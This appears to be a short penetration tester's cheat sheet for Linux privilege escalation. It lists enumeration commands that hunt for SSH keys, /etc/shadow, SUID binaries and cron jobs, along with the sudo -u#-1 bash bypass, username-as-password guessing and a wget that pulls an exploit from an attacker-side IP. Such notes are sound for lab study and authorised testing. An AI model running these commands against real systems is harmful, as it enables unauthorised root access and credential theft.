 ```shell
id

find / -group <groups> 2>/dev/null

history

sudo -l

sudo -V | grep version

find / -name id_rsa 2>/dev/null

find / -type f -perm -04000 -ls 2>/dev/null

ls -la /etc/passwd /etc/shadow

cat /etc/crontab
crontab -l

getcap -r / 2>/dev/null
/usr/sbin/getcap -r / 2>/dev/null

cat /etc/exports

sudo -u#-1 /bin/bash

ss -anp
routel
cat /etc/iptables/rules.v4

dpkg -l

cat .bashrc

ps -aux
ps -aux | grep cron        <-- search for "root   /usr/sbin/cron -f"
```
1. Snoop on processes using pspy - some cron jobs may be running in the background
2. Research and enumerate literally every cron job running
3. su into other users using their usernames as passwords; vagrant:vagrant
4. Run PEAS and LinEnum
```shell 
wget 192.168.45.x/sudodoom
```
